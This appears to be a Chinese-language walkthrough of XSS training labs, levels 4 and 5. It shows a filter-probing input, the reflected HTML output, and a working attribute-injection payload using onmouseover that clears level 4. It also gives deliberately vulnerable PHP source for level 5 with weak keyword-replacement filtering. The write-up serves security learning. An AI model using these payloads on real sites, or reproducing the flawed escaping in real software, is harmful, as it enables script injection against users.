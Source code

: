 ### 过程(未知源码的情况下)

表单输入`<sCr<scrscRiptipt>ipt>OonN\&apos;\"'<>`查看前端代码：

```html
<body>
<h1 align=center>欢迎来到level4</h1>
<h2 align=center>没有找到和&lt;sCr&lt;scrscRiptipt&gt;ipt&gt;OonN\&amp;apos;\&quot;'&lt;&gt;相关的结果.</h2><center>
<form action=level4.php method=GET>
<input name=keyword  value="sCrscrscRiptiptiptOonN\&apos;\"'">
<input type=submit name=submit value=搜索 />
</form>
</center><center><img src=level4.png></center>
<h3 align=center>payload的长度:32</h3></body>
```

有两处输出(第3行、第5行)，这两处的输出都被处理过，第3行的处理可能是用了`htmlspecialchars()`，虽然没处理`'`但也没法利用。第5行处理了`<`和`>`，将第5行的输出作为构造payload的基础。

***表单输入`"onmouseover="javascript:alert(1)`，鼠标移到表单上，过关。***

​	

​	

## 第五关

![](https://pic.imgdb.cn/item/64c880331ddac507cc5d4373.jpg)

### 源码

```php+HTML
<body>
<h1 align=center>欢迎来到level5</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center><img src=level5.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str3)."</h3>";
?>
</body>
```

